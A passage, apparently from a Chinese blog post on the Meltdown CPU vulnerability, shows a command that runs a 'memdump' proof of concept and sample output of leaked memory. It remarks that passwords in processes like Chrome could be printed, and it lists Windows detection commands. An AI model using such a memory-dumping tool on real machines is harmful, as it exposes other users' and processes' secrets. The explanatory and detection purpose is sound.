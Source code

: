 转存内存
----

程序可以打印从任意位置开始的内存信息：

```bash
$ taskset 0x1 ./memdump 0x240000000 （0xffff880000000000）
```

上述表示从0x240000000开始打印内存信息，应该可以看到这样的输出：

 

```bash
2400001cf: | 00 00 00 00 00 00 00 00 00 00 00 73 00 00 00 00 | ...........s.... |
 2400001df: | 00 00 00 00 00 00 6c 64 00 00 00 00 00 00 00 00 | ......ld........ |
 24000022f: | 69 63 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ic.............. |
 2400002af: | 00 00 00 00 00 00 00 64 00 00 00 00 00 00 00 00 | .......d........ |
 2400002df: | 00 00 00 00 00 00 00 6f 6e 67 00 00 00 00 00 00 | .......ong...... |
 24000069f: | 00 00 00 00 00 20 00 00 00 00 00 00 00 00 00 00 | ..... .......... |
 2400007cf: | 00 00 00 69 00 00 00 00 00 00 00 00 00 00 00 00 | ...i............ |
 2400008df: | 00 00 00 00 00 00 6f 00 00 00 00 00 00 00 00 00 | ......o......... |
 2400009ff: | 00 00 00 74 61 00 00 00 00 00 00 00 00 00 00 00 | ...ta........... |
 240000b8f: | 00 00 00 00 00 50 00 00 00 00 00 00 00 00 00 00 | .....P.......... |
 240000bcf: | 68 69 73 00 00 00 68 69 73 00 69 73 00 00 00 00 | his...his.is.... |
 240000d0f: | 00 00 00 00 77 65 00 00 00 00 00 00 00 00 00 00 | ....we.......... |
 240000e4f: | 00 00 00 00 00 00 00 72 00 00 00 00 00 00 00 00 | .......r........ |
 240000f9f: | 00 00 00 00 00 00 00 00 00 00 00 00 00 65 61 00 | .............ea. |
 24000124f: | 00 64 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .d.............. |
 24000129f: | 00 00 00 00 00 00 00 00 79 6f 00 00 00 00 00 00 | ........yo...... |
 2400012ef: | 00 65 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .e.............. |
 24000139f: | 00 00 00 00 00 00 00 00 00 20 00 00 00 00 00 00 | ......... ...... |
 24000160f: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 6e | ...............n |
 24000161f: | 00 00 00 00 00 00 00 00 00 00 00 64 00 00 00 00 | ...........d.... |
 24000165f: | 00 00 00 00 00 00 00 00 00 65 00 00 00 00 00 00 | .........e...... |
 24000178f: | 00 00 6f 00 00 00 00 00 00 00 00 00 00 00 00 00 | ..o............. |
 24000179f: | 00 00 00 00 00 00 00 00 77 6f 00 00 00 00 00 00 | ........wo...... |
 240001acf: | 00 00 00 00 00 00 00 00 00 6f 00 00 00 00 00 00 | .........o...... |
```

如果可以探测Chrome等进程的地址，那么可以看到你的密码被打印出来。

漏洞检测
====

Windows
-------

Windows客户，通过使用微软公司发布的检测PowerShell脚本，能够判断Windows系统是否受漏洞影响。

*   首先，需要安装相应的PowerShell模块，对应命令：`PS> Install-Module SpeculationControl`
*   其次，需要调用相应脚本，对应命令：`PS> PS> Get-SpeculationControlSettings`
*   其中，开启的保护会显示为True，未开启的保护则会显示为False，如下图所示：

![Windows修复](https://blog.cdn.hackerchai.com/images/2018/01/windows-meltdown-fix.webp)]

Linux
-----

